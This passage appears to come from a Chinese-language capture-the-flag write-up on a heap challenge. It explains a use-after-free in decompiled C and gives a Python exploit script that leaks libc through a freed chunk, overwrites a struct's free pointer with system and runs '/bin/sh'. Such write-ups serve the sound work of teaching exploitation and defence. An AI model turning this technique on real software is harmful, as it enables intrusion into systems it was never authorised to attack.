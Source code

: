 ```c
  {
    puts("Hacker!");
  }
}
```

它会检查下标是否越界，以及下标对应的元素是否存在。然而，在删除时：

```c
void __cdecl remove_item()
{
  int index; // [rsp+Ch] [rbp-4h]

  puts("Which item?");
  fflush(stdout);
  index = read_num();
  if (index < items_cnt && item_array[index] )
  {
    ((void (__fastcall *)(Item *))item_array[index]->free)(item_array[index]);
    set_null(item_array[index]);
    puts("The item has been removed");
    fflush(stdout);
  }
  else
  {
    puts("Hacker!");
  }
}
```

调用了结构体自己的 `free` 函数，参数是结构体偏移为 0 的位置也就是 `name`。随后的 `set_null` 函数并不会把 `item_array[index]` 置空，因此即使删除了元素，`item_array[index]` 仍然存在，第二项检查毫无作用。这就是为什么我们可以 `show` 一个空闲块从而泄露 libc。

然后我们就有了 `system` 地址，容易想到用它覆盖结构体指针的 `free`，然后让结构体指针的 `name` 指向 `/bin/sh`。不过，如果这里直接 `add` 新的 chunk，首先会分配我们不可控的 `0x20` 的结构体指针，然后才是可控的 `0x30` 的 `name`。因此我们希望 `name` 字段被分配到的实际上是原来 `chunk0` 的结构体指针，这样就可以写入结构体指针了。要做到这一点，可以先 `free(chunk1)` 产生一个大小合适的 chunk。那么再 `add` 时，结构体指针就会使用原来 `chunk1` 的了。

```python
def add(name,len,content):
    sla(':\n','1')
    sla('?\n',name)
    sla('?\n',str(len))
    sla('?\n',content)

def free(index):
    sla(':\n','4')
    sla('?\n',str(index))

def show(index):
    sla(':\n','3')
    sla('?\n',str(index))

add('chunk0',0x80,'a')
add('chunk1',0x80,'b')
free(0)
show(0)
ru('tion:')
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
system = base + libc.sym['system']

free(1)
add('/bin/sh;'+'a'*8+p64(system),0x18,'c')
free(0)
```
